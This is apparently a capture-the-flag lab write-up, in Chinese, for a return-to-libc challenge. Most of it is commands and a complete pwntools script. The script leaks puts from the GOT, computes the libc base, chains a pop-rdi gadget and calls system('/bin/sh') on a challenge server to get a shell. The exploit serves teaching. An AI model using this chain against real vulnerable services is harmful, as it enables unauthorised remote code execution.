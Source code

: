 ## Lab 3
此題利用題目提供的功能leak出`.got`中libc function的位置，在以該位置算出libc相對ofsset來造成return to libc attack，先找出`puts`在`.got`的位置
```
$ objdump -R r3t2lib | grep puts
0000000000601018 R_X86_64_JUMP_SLOT  puts@GLIBC_2.2.5
```
接著找出`puts`, `system`, `"/bin/sh"`在libc中的offset
```
$ objdump -T libc.so.6 | grep puts
$ objdump -T libc.so.6 | grep system
$ strings -tx libc.so.6 | grep /bin/sh
```
最後再找到一個寫入rdi的gadget
```
$ ROPgadget --binary r3t2lib | grep "pop rdi"
```

### exploit
```python
#!/usr/bin/env python3
from pwn import *
import re

context.update(os='linux', arch='amd64')
libc = ELF("libc.so.6")
binary = ELF("r3t2lib")
puts_got = binary.got[b'puts']

r = remote('pwnhub.tw', 8088)
r.sendline(format(puts_got, 'x'))
puts_addr = r.recvline_contains("0x")
puts_addr = int(re.search(b'0x[0-9A-Fa-f]+', puts_addr).group(0), 16)

puts_offset = libc.symbols[b'puts']
libc_base = puts_addr - puts_offset
system_offset = libc.symbols[b'system']
sh_offset = next(libc.search("/bin/sh\x00"))

payload = cyclic(280).encode()
payload += p64(ROP(binary).rdi.address) # jmp to rdi gadget
payload += p64(libc_base + sh_offset) # rdi = "/bin/sh"
payload += p64(libc_base + system_offset) # system

r.sendline(payload)
r.interactive()
```
